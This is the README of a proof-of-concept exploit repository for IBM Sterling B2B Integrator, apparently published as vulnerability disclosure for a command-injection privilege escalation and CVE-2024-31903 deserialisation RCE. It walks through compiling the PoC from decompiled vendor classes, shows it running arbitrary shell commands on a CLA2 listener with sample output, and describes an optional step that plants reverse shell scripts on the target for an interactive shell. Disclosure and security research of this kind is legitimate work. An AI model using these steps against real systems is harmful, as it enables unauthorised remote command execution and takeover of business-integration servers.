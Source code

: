# IBM Sterling B2B Integrator PoC

Proof of concept code for the exploitation of the vulnerabilities discovered against IBM Sterling B2B Integrator, versions 6.2.0.0 to 6.2.0.2, and 6.0.0.0 to 6.1.2.5 for Linux, Windows and AIX systems:

- LPE Command Injection - if authentication is disabled
- Pre-auth Deserialisation RCE - assigned CVE-2024-31903, see the relevant IBM advisory here: https://www.ibm.com/support/pages/node/7172233 
 
More details about these issues can be found in the accompanying blog post: 
https://labs.withsecure.com/advisories/ibm-b2b-integrator


## Repo Structure

Most of this code in this repo refers to the LPE command injection attack.

The Python binary client `bin_client.py` can be used to send messages manually to CLA2, allowing exploitation of the deserialisation RCE vulnerability. 


## Usage

```bash
$ java Main
$ Usage: Main <cmdLine> <outfile_or_SEND> [host] [port]
```

The PoC accepts two parameters:
- The shell command to be executed by the target CLA2 client
- A path to write the serialised Java message to disk, to then be analysed further/sent manually with something like `bin_client.py`, or the string "SEND" to send it immediately to host:port where a CLA2 client is listening on


## Instructions 

The source code included in this repository is deliberately incomplete, as certain classes from the CLA2 susbystem are required. Depending on filesystem permissions of the installation directory, you might be able to access the JAR files 

Assuming you have retrieved the relevant files from the JAR decompilation. Will not be uplaoded here as they constitute IBM IP

1. Decompile `CLA2Client.jar` 

2. In the decompiled code, locate files `CmdLine2Result.java` and `CmdLine2Parms.java` 

3. Copy and paste them next to `Main.java` to replicate the directory structure of the original application's java package

```
/src/com/sterlingcommerce/woodstock/services/cmdline2/
```

4. Compile the PoC program - ideally using the JDK packaged by the application 

```bash
${B2BHOME}/INSTALL/jdk/bin/javac src/com/sterlingcommerce/woodstock/services/cmdline2/*.java
```

5.	Execute it - again, using the JDK packaged by the application if possible

```bash
${B2BHOME}/appl/SFG/INSTALL/jdk/bin/java -classpath src/ com.sterlingcommerce.woodstock.services.cmdline2.Main '/bin/sh -c "id > /tmp/result"' SEND 127.0.0.1 5052
[+] Creating object...
[+] Sending object to 127.0.0.1:5052...
[+] ...Sent!
[+] Receiving header...
[+] ...header received: RESULT
[+] Receiving result...
[+] Result received:
##[DEBUG]## CmdLine2Result:
fileSize=0
outputNameLong=null
outputNameShort=null
******* end of CmdLine2Result *******
[+] clr.statusRpt:       null
[+] clr.exceptionString: null
[+] clr.somethingToLog:  CmdLine2Thread.runCommand: cmdLine before execution=/bin/sh -c "id > /tmp/result"
##[REMOTE DEBUG]## parm0=/bin/sh
##[REMOTE DEBUG]## parm1=-c
##[REMOTE DEBUG]## parm2=id > /tmp/result 
```

6.	(Optional) To obtain a fully interactive shell, upload the `revshell.py` and `revshell_listener.py` scripts onto the target system, and start the listener. Then, replace the PoC's command parameter with an invocation of the reverse shell script as below:   

```bash 
${B2BHOME}/INSTALL/jdk/bin/java -classpath src/ com.sterlingcommerce.woodstock.services.cmdline2.Main 'python3 /tmp/revshell.py 9090' SEND
```

